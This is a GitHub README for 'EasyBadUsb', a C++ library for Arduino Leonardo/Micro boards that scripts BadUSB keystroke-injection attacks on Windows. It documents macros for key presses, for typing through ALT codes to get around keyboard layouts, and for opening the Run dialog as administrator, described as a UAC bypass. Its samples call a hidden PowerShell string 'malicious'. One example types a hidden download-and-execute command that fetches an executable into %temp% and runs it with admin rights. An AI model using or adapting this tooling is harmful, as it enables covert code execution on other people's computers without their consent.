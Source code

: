 # EasyBadUsb
simple header only lib written in C++ to make BadUsb scripting easier (Arduino IDE)

### tested only on ATmega32u4 (HW-374) Arduino Leonardo or Micro
![screen](images/dis.jpg)
[image from github.com/ElijahCuff/HW-374](https://github.com/ElijahCuff/HW-374)

# v2 with alt codes (only for Windows)
## To use functions with ALT codes, Num Lock should be turned on!!!

### first, include alt.hpp in your sketch file
```cpp
#include "alt.hpp"
```

### then between BEGIN() ... END() we write our commands
```cpp
/*
    When you connect the device for the first time, it takes time for the system to detect it
    in brackets we write the delay time from connecting the device to the start of its operation
*/
BEGIN(10000)

//
// commands
//

END()
```

### lowercase input on any keyboard layout expense of alt codes (only works on Windows)

#### supported characters (eng letters, numbers and basic special characters)

```cpp
static const alt_code alt_codes_array[] = {
    {' ', 32},  {'B', 66},  {'C', 67},  {'D', 68},  {'E', 69},  {'F', 70},
    {'G', 71},  {'H', 72},  {'I', 73},  {'J', 74},  {'K', 75},  {'L', 76},
    {'M', 77},  {'N', 78},  {'O', 79},  {'P', 80},  {'Q', 81},  {'R', 82},
    {'S', 83},  {'T', 84},  {'U', 85},  {'V', 86},  {'W', 87},  {'X', 88},
    {'Y', 89},  {'Z', 90},  {'a', 97},  {'b', 98},  {'c', 99},  {'d', 100},
    {'e', 101}, {'f', 102}, {'g', 103}, {'h', 104}, {'i', 105}, {'j', 106},
    {'k', 107}, {'l', 108}, {'m', 109}, {'n', 110}, {'o', 111}, {'p', 112},
    {'q', 113}, {'r', 114}, {'s', 115}, {'t', 116}, {'u', 117}, {'v', 118},
    {'w', 119}, {'x', 120}, {'y', 121}, {'z', 122}, {'0', 48},  {'1', 49},
    {'2', 50},  {'3', 51},  {'4', 52},  {'5', 53},  {'6', 54},  {'7', 55},
    {'8', 56},  {'9', 57},  {'!', 33},  {'"', 34},  {'#', 35},  {'$', 36},
    {'%', 37},  {'&', 38},  {'\'', 39}, {'(', 40},  {')', 41},  {'*', 42},
    {'+', 43},  {',', 44},  {'-', 45},  {'.', 46},  {'/', 47},  {':', 58},
    {';', 59},  {'<', 60},  {'=', 61},  {'>', 62},  {'?', 63},  {'@', 64},
    {'[', 91},  {'\\', 92}, {']', 93},  {'^', 94},  {'_', 95},  {'`', 96},
    {'{', 123}, {'|', 124}, {'}', 125}, {'~', 126}, {'A', 65}};
```

#### alt codes lib functional

```cpp
    const char *payload_str = "powershell -windowstyle hidden..."; // malicious string

    // void alt_print(const char *str, size_t t_sleep)
    alt_print(payload_str, 0); // (malicious_string, sleep time for enter next char)
    /* sleep time for enter next char.. because i had problems on Windows 7
    that the system was unable to process alt codes, on Win 10/11 work well */
```





#### buttons definitions
```cpp
/*
    Pressing buttons should be consistent as in the list 
    (the list is specially made according to the most popular input sequences, 
    this is done to conveniently fit all the defines in one binary or)
*/

#define MKEY_LEFT_CTRL      (0x0001 << 0x00)
#define MKEY_LEFT_WIN       (0x0001 << 0x01)
#define MKEY_LEFT_SHIFT     (0x0001 << 0x02)
#define MKEY_LEFT_ALT       (0x0001 << 0x03)
#define MKEY_ENTER          (0x0001 << 0x04)

#define MKEY_LEFT_ARROW     (0x0001 << 0x05)
#define MKEY_RIGHT_ARROW    (0x0001 << 0x06)

#define MKEY_CH_R           (0x0001 << 0x07)
#define MKEY_CH_A           (0x0001 << 0x08)
#define MKEY_CH_C           (0x0001 << 0x09)

#define MKEY_FN_4           (0x0001 << 0x0A)

#define MKEY_CH_Y           (0x0001 << 0x0B)
```

### The PRESS functions is used to press special keys and simultaneously press several keys on the keyboard
```cpp
// #define PRESS(BTNS, t_sleep)
PRESS(MKEY_LEFT_CTRL | MKEY_LEFT_SHIFT | MKEY_ENTER, 200) // (buttons to be pressed, sleep time for press next button)

// #define PRESS_KRELALL(BTNS, t_sleep, t_wait)
PRESS_KRELALL(MKEY_LEFT_WIN | MKEY_CH_R, 200, 500) // (buttons to be pressed, sleep time for press next button, sleep time to release the buttons)

// bool release_btn(const uint8_t button)
release_btn(MKEY_ENTER) // (buttons to be released)

// void tprint(const char *str, size_t t_sleep)
tprint("echo Hello World!", 30) // (string, sleep time for enter next char), default print (NOT ALT)

// #define WAIT(ms)
WAIT(500) // delay 500 ms
```


### convenient definitions
```cpp
// #define RUN_ENTER(command, t_sleep_print)
    RUN_ENTER("msiexec /i https://www.python.org/ftp/python/2.7.18/python-2.7.18.amd64.msi", 0) // (command for win + r (run), sleep time to release the buttons(alt codes))

// #define RUN_ENTER_AS_ADMIN(command, t_sleep_print)
    RUN_ENTER_AS_ADMIN("msiexec /i https://www.python.org/ftp/python/2.7.18/python-2.7.18.amd64.msi", 0) // (command for win + r (run), sleep time to release the buttons(alt codes))
    // will be run as administrator (UAC bypass if user admin on system)
```


### example
```cpp
#include "alt.hpp"

// When you connect the device for the first time, it takes time for the system to detect it
BEGIN(10000)
    const char *str = "powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('"
    "https://www.python.org/ftp/python/3.11.7/python-3.11.7-amd64.exe', '%temp%/py_install.exe'); %temp%/py_install.exe";
    RUN_ENTER_AS_ADMIN(str, 0)
END()
```

### demo
[![demo](https://img.youtube.com/vi/Osa8dZCe86s/0.jpg)](https://www.youtube.com/watch?v=Osa8dZCe86s)

